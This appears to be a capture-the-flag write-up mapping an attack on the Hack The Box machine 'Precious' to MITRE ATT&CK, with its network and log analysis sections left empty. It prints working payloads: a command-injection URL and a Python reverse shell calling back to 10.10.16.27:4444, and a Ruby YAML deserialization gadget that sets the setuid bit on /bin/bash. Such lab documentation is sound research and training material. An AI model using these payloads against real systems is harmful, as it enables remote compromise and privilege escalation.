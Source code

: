# Cyber4ML_Framework application in "Precious" HTB machine.

## Framework application details

|Documentation|MITRE ATT&CK|Network Analysis|Log Analysis|
|-|-|-|-|
|Yes|Yes|Yes|Yes|

|Attacker Level|Environment|VPN|Attacker IP|Victim IP|
|-|-|-|-|-|
|Average|Linux|Yes|10.10.16.27|10.10.11.189|

## Documentation

Documentation of the attack: [Precious Documentation](https://github.com/stevendamianakis/HackTheBox_Writeups/blob/main/Machines/Precious/README.MD)

## MITRE ATT&CK mapping

Below, we map the attack to the MITRE ATT&CK Enterprise framework.

| Tactic | Technique | Subtechnique | Command |
| - | - | - | - |
| Initial Access | Exploit Public-Facing Application | - | (1) |
| Execution | Command and Scripting Interpreter | Unix Shell | (2) |
| Persistence | Valid Accounts | Default Accounts | (3) |
| Privilege Escalation | Exploitation for Privilege Escalation | - | (4) |

#### Commands
- (1)
```
http://%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.27",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
```
- (2)
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.27",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
- (3)
```
ssh henry@10.10.11.189
```
- (4)
```
 ---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: "chmod +s /bin/bash"
          method_id: :resolve
```

## Network Analysis

Pcap file of the attack:

## Log Analysis
